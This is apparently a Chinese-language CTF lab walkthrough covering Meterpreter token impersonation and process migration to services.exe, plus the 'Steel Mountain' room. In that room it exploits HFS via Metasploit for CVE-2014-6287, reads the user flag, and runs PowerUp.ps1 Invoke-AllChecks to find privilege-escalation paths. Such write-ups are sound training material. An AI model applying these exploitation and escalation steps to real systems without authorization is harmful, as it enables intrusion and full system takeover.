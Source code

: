 `查看可用令牌`

![image-20230424010132029](https://gitee.com/leiye87/typora_picture/raw/master/20230424010133.png)

```
//模拟令牌
impersonate_token "BUILTIN\Administrators"
//输入getuid
//输出  NT AUTHORITY\SYSTEM
```

我们现在已经拥有了最高权限的令牌,但实际上我们也可能没有特权用户的权限.这是由于Windows处理权限的方式-它使用进程的主令牌而不是模拟令牌来确定进程可以做什么或不能做什么.services.exe 是一个系统服务进程,具有与其他进程通信的权限

```
//迁移进程,最安全的进程为services.exe
//ps 查看services.exe的进程
migrate 668

```



### Steel Mountain

Window 

#### user

nmap 运行着 HFS 服务，搜索到相关CVE,msf一把梭

```
search 2014-6287
set xx
run
```

查看 `flag`  

```
cat C:\\Users\bill\Desktop\user.txt
```

`shell` 可以切换 msfshell 和powershell

#### root

上传文件检测提权利用点

```
upload /opt/powerUp.ps1
load powershell  //加载powershell
powershell_shell //进入powershell
. .\PowerUp.ps1 //执行我们刚刚下载的脚本
Invoke-AllChecks //Invoke-AllChecks 是一个运行模块中包含的所有检查的函数。该函数以有用的格式输出检查结果，并为我们提供有关在哪里查看权限提升的建议。我们收到了检查结果列表并建议了可能的 PowerUp 攻击

```
